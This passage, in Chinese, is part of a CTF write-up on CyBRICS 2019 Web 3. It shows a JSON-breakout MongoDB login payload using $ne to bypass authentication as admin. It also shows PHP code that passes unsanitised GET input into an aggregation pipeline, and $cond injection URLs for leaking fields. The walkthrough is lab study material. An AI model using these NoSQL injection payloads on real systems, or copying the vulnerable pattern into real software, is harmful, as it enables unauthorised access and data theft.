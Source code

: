 那么问题来了，怎么绕过这个json_decode同时绕过身份认证呢
Let's have a look.
![](./pics/CyBRICS CTF Quals 2019 Web 3_2.png)
后面会覆盖掉前面的内容
那么我们构造如下payload
```
username=a&password=123","password":{"$ne":"aa"},"username":"admin
```
![](./pics/CyBRICS CTF Quals 2019 Web 3_3.png)
即可绕过身份验证
其实在mongodb中原本查询也是如此
![](./pics/CyBRICS CTF Quals 2019 Web 3_4.png)

成功登录后 根据filter查询数据
![](./pics/CyBRICS CTF Quals 2019 Web 3_5.png)
测试出了5个字段
```
$_id $title $text $public $category
```
不过源码中有限制，只能显示5条，显示不到flag
简化此处功能代码如下：
```php
<?php
$filter = $_GET['filter'];
$collection = (new MongoDB\Client('mongodb://localhost:27017/'))->test->news;
$pipeline = [
	['$group' => ['_id' => '$category', 'count' => ['$sum' => 1]]],
	['$sort' => ['count' => -1]],
	['$limit' => 5],
];
$filters = [
			['$project' => ['category' => $filter]]
		];
$cursor = $collection->aggregate(array_merge($filters, $pipeline));
if (isset($filter)){
	foreach ($cursor as $category) {
		printf("%s has %d news<br>", $category['_id'], $category['count']);
	}
}
```
查询这里通过aggregate（聚合）方法来查询，其中几个参数的作用为
`$project`：修改输入文档的结构。可以用来重命名、增加或删除域，也可以用于创建计算结果以及嵌套文档。
`$limit`：用来限制MongoDB聚合管道返回的文档数。
`$group`：将集合中的文档分组，可用于统计结果。
`$sort`：将输入文档排序后输出。
$project这里可视为根据所输入的条件创建一个小集合
查了下官方文档，看到一个[$cond](https://docs.mongodb.com/manual/reference/operator/aggregation/cond/) 可以加以利用，相当于MySQL中的 if 条件语句
通过构造类似于
```
/index.php?filter[$cond][if][$eq][]=11111&filter[$cond][if][$eq][]=22222&filter[$cond][then]=$text&filter[$cond][else]=$_id
或者
/index.php?filter[$cond][0][$eq][]=11111&filter[$cond][0][$eq][]=22222&filter[$cond][]=$text&filter[$cond][]=$_id
```
判断11111 与 22222 是否相等（$eq），相等则按$text显示，不等则按$_id显示
![](./pics/CyBRICS CTF Quals 2019 Web 3_6.png)
我们根据刚才`filter=$category`查询知道
```
politics has 9 news
flags has 9 news
finance has 5 news
```